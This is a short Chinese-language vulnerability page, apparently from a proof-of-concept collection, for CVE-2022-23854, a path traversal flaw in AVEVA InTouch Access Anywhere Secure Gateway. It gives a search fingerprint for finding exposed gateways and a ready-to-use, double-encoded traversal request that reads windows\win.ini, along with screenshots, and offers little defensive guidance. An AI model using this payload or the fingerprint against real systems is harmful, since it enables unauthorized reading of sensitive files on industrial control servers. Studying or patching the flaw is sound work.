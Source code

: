 # AVEVA InTouch安全网关 AccessAnywhere 任意文件读取漏洞 CVE-2022-23854

## 漏洞描述

AVEVA InTouch Access Anywhere Secure Gateway 2020 R2及以前的版本存在路径遍历漏洞，未授权的攻击者可利用该漏洞获取服务器敏感信息。

## 漏洞影响

<a-checkbox checked>AVEVA InTouch安全网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="InTouch Access Anywhere"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1665393583233-2d925e11-abc1-42ef-9f37-10142de6a596.png)

验证POC

```sql
/AccessAnywhere/%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255cwindows%255cwin.ini 
```

![img](../../../.vuepress/public/img/1665393604635-b68b82e6-a3e9-48e9-8b40-46c7472c442d.png)
